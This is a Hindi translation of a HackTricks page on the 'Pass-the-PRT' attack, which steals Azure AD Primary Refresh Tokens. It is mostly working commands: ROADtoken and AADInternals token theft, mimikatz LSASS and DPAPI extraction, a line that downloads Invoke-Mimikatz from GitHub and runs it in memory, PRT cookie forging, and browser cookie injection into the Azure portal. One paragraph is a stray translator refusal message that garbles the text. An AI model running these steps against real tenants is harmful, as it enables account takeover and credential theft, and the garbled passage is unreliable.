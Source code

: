 # Az - पास द पीआरटी

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## पीआरटी क्या है

{% content-ref url="az-primary-refresh-token-prt.md" %}
[az-primary-refresh-token-prt.md](az-primary-refresh-token-prt.md)
{% endcontent-ref %}

### जांचें कि क्या आपके पास पीआरटी है
```
Dsregcmd.exe /status
```
SSO State अनुभाग में, आपको **`AzureAdPrt`** को **YES** के रूप में सेट देखना चाहिए।

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

उसी आउटपुट में आप यह भी देख सकते हैं कि **डिवाइस Azure से जुड़ा हुआ है** (फील्ड `AzureAdJoined` में):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### हमला - ROADtoken

इस तरीके के बारे में अधिक जानकारी के लिए [**इस पोस्ट को देखें**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). ROADtoken सही डायरेक्टरी से **`BrowserCore.exe`** को चलाएगा और इसका उपयोग करके **PRT कुकी प्राप्त करेगा**। इस कुकी का उपयोग ROADtools के साथ प्रमाणीकरण करने और **स्थायी रिफ्रेश टोकन प्राप्त करने** के लिए किया जा सकता है।

एक मान्य PRT कुकी जेनरेट करने के लिए पहली चीज जो आपको चाहिए वह है एक nonce।\
आप इसे प्राप्त कर सकते हैं:
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
या [**roadrecon**](https://github.com/dirkjanm/ROADtools) का उपयोग करते हुए:
```powershell
roadrecon auth prt-init
```
फिर आप [**roadtoken**](https://github.com/dirkjanm/ROADtoken) का उपयोग करके एक नया PRT प्राप्त कर सकते हैं (हमला करने के लिए उपयोगकर्ता की प्रक्रिया से टूल में चलाएं):
```powershell
.\ROADtoken.exe <nonce>
```
Since you've requested not to translate code, hacking technique names, cloud/SaaS platform names, the word 'leak', pentesting, and markdown tags, and to keep the markdown and HTML syntax intact, I will only translate the text that does not fall into these categories. Please provide the text that needs to be translated.
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

फिर आप **generated cookie** का उपयोग करके Azure AD **Graph** या Microsoft Graph का उपयोग करते हुए **login** के लिए **tokens generate** कर सकते हैं:
```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### हमला - AADInternals का उपयोग करना

`Get-AADIntUserPRTToken` **उपयोगकर्ता का PRT टोकन प्राप्त करता है** Azure AD से जुड़े या Hybrid जुड़े कंप्यूटर से। `BrowserCore.exe` का उपयोग करके PRT टोकन प्राप्त करता है।
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
यदि आपके पास Mimikatz से मिले मान हैं, तो आप AADInternals का उपयोग करके एक टोकन भी उत्पन्न कर सकते हैं:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
जाएं [https://login.microsoftonline.com](https://login.microsoftonline.com) पर, login.microsoftonline.com के सभी कुकीज़ को साफ करें और एक नया कुकी दर्ज करें।
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
फिर [https://portal.azure.com](https://portal.azure.com) पर जाएं

{% hint style="danger" %}
बाकी सभी सेटिंग्स डिफ़ॉल्ट होनी चाहिए। सुनिश्चित करें कि आप पेज को रिफ्रेश कर सकते हैं और कुकी गायब नहीं होती है, अगर ऐसा होता है, तो संभवतः आपसे कोई गलती हुई है और आपको प्रक्रिया को फिर से करना पड़ सकता है। अगर ऐसा नहीं होता है, तो आप ठीक होने चाहिए।
{% endhint %}

### हमला - Mimikatz

#### चरण

1. **LSASS से PRT निकालें** और इसे बाद के लिए सहेजें।
2. **सत्र कुंजी निकालें**। अगर आपको याद हो तो यह जारी की जाती है और फिर स्थानीय उपकरण द्वारा पुनः एन्क्रिप्ट की जाती है, इसलिए हमें इसे **DPAPI मास्टरकी का उपयोग करके डिक्रिप्ट करना होगा**। DPAPI के बारे में अधिक जानकारी के लिए इस [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) लिंक या [**Pass-the-cookie हमला**](az-pass-the-cookie.md) देखें।
3. डिक्रिप्टेड सत्र कुंजी का उपयोग करके, हम PRT और संदर्भ के लिए व्युत्पन्न कुंजी प्राप्त करेंगे। इसकी आवश्यकता हमारी PRT कुकी **बनाने के लिए होती है**। व्युत्पन्न कुंजी वह होती है जिसका उपयोग कुकी के लिए JWT को साइन करने के लिए किया जाता है। Dirk-jan ने इस प्रक्रिया को [यहाँ](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/) बहुत अच्छे से समझाया है।

{% hint style="warning" %}
अगस्त 2021 के बाद के फिक्सेस के बाद यह काम नहीं करेगा अन्य उपयोगकर्ताओं के PRT टोकन प्राप्त करने के लिए क्योंकि केवल उपयोगकर्ता ही अपना PRT प्राप्त कर सकता है (एक स्थानीय एडमिन अन्य उपयोगकर्ताओं के PRTs तक पहुँच नहीं सकता), लेकिन अपना पहुँच सकता है।
{% endhint %}

{% hint style="danger" %}
**इस तरीके से कुकी जनरेट करना पिछली बार मेरे लिए काम नहीं किया**
{% endhint %}

आप **mimikatz** का उपयोग करके PRT निकाल सकते हैं:
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
<figure><img src="../../../.gitbook/assets/image (4) (1) (3).png" alt=""><figcaption></figcaption></figure>

**Prt** लेबल वाले भाग की **प्रतिलिपि** बनाएं और इसे सहेजें।\
सत्र कुंजी या “**ProofOfPosessionKey**” को भी निकालें जिसे आप नीचे हाइलाइट किया गया देख सकते हैं। यह एन्क्रिप्टेड है और हमें इसे डिक्रिप्ट करने के लिए अपने DPAPI मास्टरकीज का उपयोग करना होगा।

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
यदि आपको कोई PRT डेटा नहीं दिख रहा है तो यह हो सकता है कि आपके पास कोई PRTs नहीं हैं क्योंकि आपका डिवाइस Azure AD से जुड़ा नहीं है या यह हो सकता है कि आप Windows 10 का **पुराना संस्करण** चला रहे हैं।
{% endhint %}

सत्र कुंजी को **डिक्रिप्ट** करने के लिए आपको अपने विशेषाधिकारों को **SYSTEM** तक **बढ़ाना** होगा ताकि कंप्यूटर संदर्भ के तहत चलाने के लिए और **DPAPI मास्टरकी का उपयोग करके इसे डिक्रिप्ट करने** के लिए सक्षम हो सकें। ऐसा करने के लिए आप निम्नलिखित कमांड्स का उपयोग कर सकते हैं:
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
अब आप दोनों Context मान की प्रतिलिपि बनाना चाहते हैं:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

और व्युत्पन्न कुंजी मान:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

अंत में आप इस सभी जानकारी का उपयोग **PRT कुकीज़ उत्पन्न करने** के लिए कर सकते हैं:
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

[https://login.microsoftonline.com](https://login.microsoftonline.com) पर जाएं, login.microsoftonline.com के लिए सभी कुकीज़ को साफ करें और एक नया कुकी दर्ज करें।
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
फिर [https://portal.azure.com](https://portal.azure.com) पर जाएं

{% hint style="danger" %}
बाकी सभी सेटिंग्स डिफ़ॉल्ट होनी चाहिए। सुनिश्चित करें कि आप पेज को रिफ्रेश कर सकते हैं और कुकी गायब नहीं होती है, अगर वह गायब हो जाती है, तो संभवतः आपसे कोई गलती हो गई है और आपको प्रक्रिया को फिर से करना पड़ सकता है। अगर ऐसा नहीं होता है, तो आप ठीक होने चाहिए।
{% endhint %}

## संदर्भ

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
